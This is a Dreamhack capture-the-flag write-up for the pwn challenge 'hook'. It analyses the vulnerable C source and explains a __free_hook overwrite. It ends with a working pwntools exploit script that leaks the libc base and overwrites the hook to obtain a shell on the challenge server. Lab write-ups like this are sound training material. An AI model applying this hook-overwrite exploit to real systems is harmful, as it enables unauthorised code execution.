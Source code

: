 # hook - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 1
- Provided Files: hook.c, hook(ELF), libc-2.23.so
- tools:
## Brief Description
이 문제는 작동하고 있는 서비스(hook)의 바이너리와 소스코드가 주어집니다.
프로그램의 취약점을 찾고 _hook Overwrite 공격 기법으로 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec hook
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```
## Vulnerability
### Arbitrary Write(임의 주소 쓰기)
``` c
*(long *)*ptr = *(ptr+1);
// *(long *)ptr[0] = ptr[1]
```
ptr[0]에 적힌(가리키는) 주소에 ptr[1]의 값을 쓰는 것으로, 공격자가 임의 주소에 값을 삽입할 수 있다.  
## Exploit
### Strategy
카나리가 설정되어 있지만, BOF를 활용하지 않아서 상관 없다. Full RELRO가 활성화되어 `.got`, `.got.plt`를 덮어 쓸 수 없지만, `__free_hook`은 덮어쓸 수 있다. `__free_hook`를 덮어써서 더블 free를 막으면 `system("/bin/sh");`을 실행할 수 있다. 그 외에도 one_gadget을 사용하거나, `__free_hook`을 `system("/bin/sh");`처럼 덮어쓰는 방법도 있다.  
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| canary | -0x8 |
| ptr | -x10 |
| size | -0x18 |
### Exploitation Steps
``` sh
pwndbg> break* (main+35)
pwndbg> ni
pwndbg> ni
```
``` sh
*RAX  0x7ffff7fa6780 (_IO_2_1_stdout_) ◂— 0xfbad2087
```
`stdout`은 libc의 `_IO_2_1_stdout_`를 가리키는 것을 확인할 수 있다. 이것으로 libc base를 구할 수 있다.  
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 19972)
context.arch = "amd64"

e = ELF('./hook')
libc = ELF('x64/libc-2.23.so')

# recv stdout
p.recvuntil(b'stdout: ')
stdout = int(p.recvline(), 16)

# libc base leak
libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]
log.info(f'libc base = {libc_base}')
free_hook = libc_base + libc.symbols['__free_hook']
puts = libc_base + libc.symbols['puts']

# send size
p.recvuntil(b'Size: ')
p.sendline(b'16')

# payload
payload = b''
payload += p64(free_hook) + p64(puts)
p.sendlineafter(b'Data: ', payload)

# interactive
p.interactive()
```